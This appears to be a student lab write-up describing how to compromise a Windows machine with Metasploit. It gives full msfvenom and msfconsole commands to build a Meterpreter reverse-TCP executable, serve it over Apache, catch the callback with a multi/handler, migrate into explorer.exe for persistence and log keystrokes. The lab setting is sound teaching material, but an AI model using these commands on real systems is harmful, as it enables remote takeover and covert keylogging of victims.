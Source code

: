 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2024-04-29 204511](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/08197f7d-0ab9-4a3b-8df9-c7c70e83e41d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2024-04-29 204544](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5c084377-09b8-4430-95f1-bb952e3d3b5c)


copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0fed7549-d5a6-445e-8c94-ae3a6294d050)



Start apache server
sudo systemctl apache2 start
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0e80fcac-7d4b-405c-8f00-1a70421fca3b)


Check the status of apache2
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/963f37a2-9f73-4b9d-aa9f-13c1432613f3)

Invoke msfconsole:
## OUTPUT:

![Screenshot 2024-04-29 204808](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/970ca074-b231-40ee-bf3f-81a65b6c534c)




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Screenshot 2024-04-29 205928](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b58e80cf-6c8c-4917-9dfb-5c0b18626b3f)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2024-04-29 210014](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/eddeb6f2-f369-4e62-8d5f-f84094478776)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/a052e59c-d560-4502-bb60-8ee7dd7b89e2)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b9906630-9108-487d-8073-3e2a560d8483)


On kali give the command exploit
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/6a1e5be1-a317-492a-906a-43c773a37fe9)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/2f7d996b-2036-4ff2-a8fe-2063d7858eb1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/619ff40d-cba1-4749-a23c-5d1c624f2dff)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5f0af326-0a94-4e9d-8fed-fbb221ef9634)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
